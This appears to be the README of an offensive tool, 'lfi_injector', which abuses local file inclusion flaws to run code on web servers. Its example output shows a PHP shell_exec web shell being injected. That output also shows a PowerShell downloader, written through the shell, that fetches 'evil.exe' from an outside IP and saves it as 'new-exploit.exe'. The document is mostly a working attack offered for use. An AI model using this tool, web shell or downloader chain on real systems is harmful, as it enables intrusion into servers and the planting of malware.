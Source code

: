 # lfi_injector

Reads code (or anything else) from a file, url encodes it, and makes a request for each line, so as to attempt to gain LFI code execution. Use of the `inject` parameter will precede the requests with the necessary php code (otherwise, this will need to be done manually)

Prerequisites: The system must be vulnerable to LFI and the appropriate susceptible URL must be used (do your research)

## Usage

```
usage: lfi_injector.py [-h] -f FILE -u URL -p PARAMETER [-v] {inject} ...

positional arguments:
  {inject}              inject -h for details

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  file with code to send
  -u URL, --url URL     full vulnerable url (minus injected parameter
  -p PARAMETER, --parameter PARAMETER
                        injected parameter (ex: cmd)
  -v, --verbose         v: increased detail; vv: even more detail
  ```
  
  ### inject
  
  ```
  usage: lfi_injector.py inject [-h] [--port PORT] target

positional arguments:
  target       target to inject parser

optional arguments:
  -h, --help   show this help message and exit
  --port PORT  port to inject (default: 80)
  ```
  
  ## Example
  
  ```
python .\lfi_injector.py -f testfile -u http://127.0.0.1:8997?name=shrek -p t3st -v inject 127.0.0.1 --port=8997
[+] inject php parameter parser enabled
[+] connecting to 127.0.0.1 on port 8997
[+] injecting: <?php echo shell_exec($_GET['t3st']);?>
[+] url: http://127.0.0.1:8997?name=shrek, parameter: t3st
[+] code read from file: testfile
[+] sending requests...
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24storageDir+%3D+%24pwd+%3E+wget.ps1
[+] success!
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24webclient+%3D+New-Object+System.Net.WebClient+%3E%3Ewget.ps1
[+] success!
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24url+%3D+%22http%3A%2F%2F10.11.0.5%2Fevil.exe%22+%3E%3Ewget.ps1
[+] success!
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24file+%3D+%22new-exploit.exe%22+%3E%3Ewget.ps1
[+] success!
[+] sending: http://127.0.0.1:8997?name=shrek&t3st=echo+%24webclient.DownloadFile%28%24url%2C%24file%29+%3E%3Ewget.ps1
[+] success!
[+] 100% successful transfer!
```

# TODO

Definitely still needs a little work, but wanted to gice a placeholder for now...
